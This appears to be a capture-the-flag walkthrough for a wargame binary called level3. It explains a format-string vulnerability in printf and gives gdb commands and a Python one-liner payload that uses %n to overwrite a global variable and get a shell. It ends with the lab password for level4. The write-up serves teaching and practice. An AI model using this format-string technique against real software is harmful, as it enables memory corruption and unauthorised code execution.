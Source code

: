 # Level3 Walkthrough

## Analyzing the Program with GDB or Ghidra and Running the program

1. **Disassemble the `main` function**:
    - `watch source.c`
    - Focus on v() function: we can see a call to fgets() which is protect against buffer overflow attack but we can see a printf() function call which is vulnerable to format string exploit.

    ```
    gdb ./level3
    info functions
    b v
    run
    info variables
    p &m
    ```

    - We can see that the address of m is : `804988c` so we'll have to change the value.

    - Purpose is to change the content of the variable `m` it has to have 64bytes (0x40): 
        - address of `m` : 4bytes
        - buffer padding : 60 bytes more

2. **Format String Vulnerability**
    - Need to print number of bytes, and the address.
        ```
        python -c 'print "\x8c\x98\x04\x08" + " %x "* 10' > /tmp/exploit3
        cat /tmp/exploit3 | ./level3
        200 b7fd1ac0 b7ff37d0 804988c
        ```
    - So, the address of m is at the 4th position, so now...
    
3. **Final Fight**
    - We can see "Wait what?!" with `python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' | ./level3` so lets put it in a file
    ```
    python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
    cat /tmp/exploit3 - | ./level3
    ```

## Moving to level4

1. **Swith User to level4**:
    Run ```su level4```

2. **Authenticate with the Password**:
    We used the password we found on flag.
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa